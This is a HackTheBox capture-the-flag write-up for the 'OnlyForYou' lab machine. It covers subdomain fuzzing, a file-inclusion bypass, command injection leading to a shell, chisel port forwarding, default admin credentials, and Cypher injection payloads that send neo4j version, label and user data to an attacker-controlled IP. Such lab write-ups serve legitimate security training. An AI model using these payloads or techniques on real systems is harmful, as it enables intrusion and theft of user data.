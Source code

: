 <h3> OnlyForYou HackTheBox </h3>

Difficulty = Medium

Nmap Scan:
![image](https://user-images.githubusercontent.com/127159644/236711287-ceef7d4e-9e1b-4ac7-badc-ebe28f16d87c.png)

Update your */etc/hosts* file with the content of the domain name *only4you.htb*

Going over to the web server shows this
![image](https://user-images.githubusercontent.com/127159644/236711396-45b855af-4ddc-4ac6-87a5-352a24ba7d72.png)

Using *ffuf* I fuzzed for subdomain on the vhosts
![image](https://user-images.githubusercontent.com/127159644/236711542-c0362d61-3615-4337-964a-b9767825ec42.png)

Adding the new sub domain *beta.only4you.htb* to my */etc/hosts* file
![image](https://user-images.githubusercontent.com/127159644/236711590-70da737f-b94f-4e51-8266-b1b4124cf0de.png)

Checking the sub domain shows this
![image](https://user-images.githubusercontent.com/127159644/236711622-20a4ed18-e7fc-4ab4-9bef-115d93b2d1f5.png)

I downloaded the source code for this web instance
![image](https://user-images.githubusercontent.com/127159644/236711685-b024754b-a351-45b8-bc32-75ec0f69703e.png)

There's a file upload functon but I didn't particularly find it interesting cause it was rather secured to me 🤔

But here's the vulnerable part of the code
![image](https://user-images.githubusercontent.com/127159644/236711846-fd096b18-edfa-475a-bfe6-d9d867d0b989.png)

The user can query files for download and there's a prevention against LFI but we can still achieve file inclusion without using *../*
![image](https://user-images.githubusercontent.com/127159644/236712019-dbbffe0c-5cf4-445f-8518-c5e59f253816.png)

I made a [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/enumerate.py) to automate finding of files 

We know that the server is hosted on *Nginx* from *Wappalyzer Result*

![image](https://user-images.githubusercontent.com/127159644/236713368-0084a968-f8bf-44ae-b873-11e106219ef7.png)

And the default path for web server (vhost) config running nginx is */etc/nginx/sites-enabled/default*

Checking it shows the web path to the vhost which turns out to be */var/www/only4you.htb/ and /var/www/beta.only4you.htb*
![image](https://user-images.githubusercontent.com/127159644/236713662-546d441f-f348-44a7-acef-080cda872f97.png)

Now we can enumerate more files

Out of curiosity we can tell that the web server is built with python and since the sub domain for the vhost has app.py then the doman should also have 🤔

Checking it shows that it's indeed there */var/www/only4you.htb/app.py*
![image](https://user-images.githubusercontent.com/127159644/236714308-46607e76-c122-4a0e-8a53-6525a37cf52b.png)
![image](https://user-images.githubusercontent.com/127159644/236714364-b44ee2ea-8bb5-4fb7-952d-59821593c155.png)

Looking at the code we can see that it is built on the *form* module 

Lets fetch the *form* module at */var/www/only4you.htb/form.py*
![image](https://user-images.githubusercontent.com/127159644/236714557-7fcf1c9c-a224-4d83-a68a-8e58ef829055.png)
![image](https://user-images.githubusercontent.com/127159644/236714641-daefa71d-a6bc-4502-a434-8d267d7dab9b.png)

Looking at the code we can see that it does:

```python
result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
```

So far that variable shell is set to True we can basically inject command which will lead to command injection and maybe shell :D

Lets test it out
![image](https://user-images.githubusercontent.com/127159644/236715685-48a2499c-7918-4999-b4d0-20e46cf07711.png)

It works cool here's the [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/htb/b2b/onlyforyou/execute.py) that I made for it

Using it to get shell works
![image](https://user-images.githubusercontent.com/127159644/236715962-cef7b857-8b75-4845-bb32-d01a8c914c0f.png)

Here's how I stabilized my shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Checking the internal ports avaiable shows that a service is running on port 3000 and 8001
![image](https://user-images.githubusercontent.com/127159644/236716251-7e6f788d-86ce-4c4b-93a9-bad02d10b5a0.png)

Lets port forward using chisel shall we 🙂
![image](https://user-images.githubusercontent.com/127159644/236716419-626c5220-9a6a-4150-aeab-5ff3d51a0891.png)

```bash
Command:

Host: chisel server -p 9001 --reverse
Target: ./chisel client {host}:9001 R:3000:127.0.0.1:3000 &
```

We can confirm that it was successfully port forwarded by scanning our host
![image](https://user-images.githubusercontent.com/127159644/236716902-a733ac13-25e0-4a9f-9c1e-e3b7e3f67f08.png)

Now lets see what it contains or rather what it is 😅
![image](https://user-images.githubusercontent.com/127159644/236717017-4ae503d5-2697-4403-8c33-8eee48cc1f4d.png)

Hmmmm that's an instance of Gogs

I checked /explore to see if i can get any repo but i didn't tho i got two users which were *John and Administrator*
![image](https://user-images.githubusercontent.com/127159644/236717468-98e81d97-39c4-4766-9876-cfe9f608b44c.png)

Nothing much we can do now

Lets port forward the service on port 8001 and see what we can fetch 

After I did that (the same i port forwarded earlier) looking at the page shows this
![image](https://user-images.githubusercontent.com/127159644/236717677-1742d53a-3490-4f89-ad45-e317176d5214.png)

Trying weak cred *admin:admin* works
![image](https://user-images.githubusercontent.com/127159644/236717758-e9528367-0261-48b4-bfe9-62c79d54b704.png)

Poking around I saw the notes left by the admin

![image](https://user-images.githubusercontent.com/127159644/236717899-c48aa7c2-60f8-45d9-9d1e-2ac70d875c8d.png)

The db is based of neo4j interesting 🤔

There's a search function of the web app
![image](https://user-images.githubusercontent.com/127159644/236717977-991faca1-807d-4ac0-9506-617505ffc1fb.png)

Looking for how to exploit neo4j database leads to Cypher Injection here's the [source](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j)

We can test with this query through Burpsuite to know the version, then url encode and send it a web server hosted by us.

```sql
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.175/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

Trying the query leaks the version
![image](https://user-images.githubusercontent.com/127159644/236718595-8bf9d822-d889-4245-b196-6c50ed12e07b.png)
![image](https://user-images.githubusercontent.com/127159644/236718623-4da759bb-625a-4114-8357-512c73ff0cef.png)

Now lets get the list of tables

```sql
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.175/?label='+label as l RETURN 0 as _0 //
```

![image](https://user-images.githubusercontent.com/127159644/236719094-e295b16d-f40e-40da-b8a2-5d9665fb25a9.png)
![image](https://user-images.githubusercontent.com/127159644/236719119-0536de45-fbd8-409d-9061-66992e1759ba.png)

Lets dump the users 🙂

```sql
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.175/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

![image](https://user-images.githubusercontent.com/127159644/236719601-0f0aa538-ec26-414f-9ac9-f1a3478099ed.png)
![image](https://user-images.githubusercontent.com/127159644/236719571-89a3a6db-91a6-4e92-a0ad-fadbe415c235.png)

